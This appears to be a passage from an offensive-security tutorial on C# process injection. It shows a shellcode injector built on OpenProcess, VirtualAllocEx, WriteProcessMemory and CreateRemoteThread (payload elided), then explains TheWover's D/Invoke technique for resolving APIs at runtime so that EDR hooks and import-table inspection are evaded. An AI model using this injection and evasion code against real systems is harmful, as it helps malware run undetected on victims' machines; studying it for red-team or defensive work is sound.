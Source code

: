 ```csharp
            var shellcode = "...";
            
            IntPtr hProcess = OpenProcess(0x1F0FFF, false, int.Parse(args[0]));
            IntPtr alloc  = VirtualAllocEx(hProcess, IntPtr.Zero, (UInt32)(shellcode.Length), 0x00001000, 0x40);			
        
            UIntPtr bytesWritten;
            WriteProcessMemory(hProcess, alloc , shellcode, (UInt32)(shellcode.Length), out bytesWritten);			
        
            CreateRemoteThread(hProcess, IntPtr.Zero, 0, alloc , IntPtr.Zero, 0,IntPtr.Zero);
        }
    }
}			
```

However, as for [this](https://thewover.github.io/Dynamic-Invoke/) post by TheWover, with P/Invoke functions 
address will be statically resolved, meaning any reference to a Windows API will appear in the .NET Assembly’s IAT.
Moreover, an EDR looking for specific API calls will be able to intercept these calls.

For this reason, TheWover developed a new library to Dynamically resolve API functions address at runtime. This
can be done in 3 ways:
* Standard: dynamic search of the API address against the DLL mapped in memory (kernel32, ntdll, ...)
* Manual Mapping: dynamic search of the API address against a fresh copy of the DLL mapped from disk (bypass hooking!)
* Overload Mapping: dynamic search of the API address against a fresh copy of the DLL mapped from disk, which is also 
  backed up by a valid module on disk (stealthier)
  
Pretty cool, but how things will change from teh previous example?

P/Invoke worked with "signatures", D/Invoke works with "[Delegates](https://docs.microsoft.com/en-us/dotnet/csharp/programming-guide/delegates/)", which allows wrapping methods within a class. 
As such, we can think of any API now as a class, or type. In order to use these classes, we need to declare them, of course.

Note: I'm used to it, but to me this still works like magic.  

So let's see how the example above will change. 

Every signature from P/Invoke will have a parallel delegate in the new program: 

```csharp
[UnmanagedFunctionPointer(CallingConvention.StdCall)]
delegate IntPtr OpenProcess(int dwDesiredAccess, bool bInheritHandle, int dwProcessId);

[UnmanagedFunctionPointer(CallingConvention.StdCall)]
public delegate IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint dwSize, uint flAllocationType, uint flProtect);

[UnmanagedFunctionPointer(CallingConvention.StdCall)]
public delegate bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress, byte[] lpBuffer, uint nSize, out UIntPtr lpNumberOfBytesWritten);

[UnmanagedFunctionPointer(CallingConvention.StdCall)]
public delegate IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint dwCreationFlags, IntPtr lpThreadId);
```
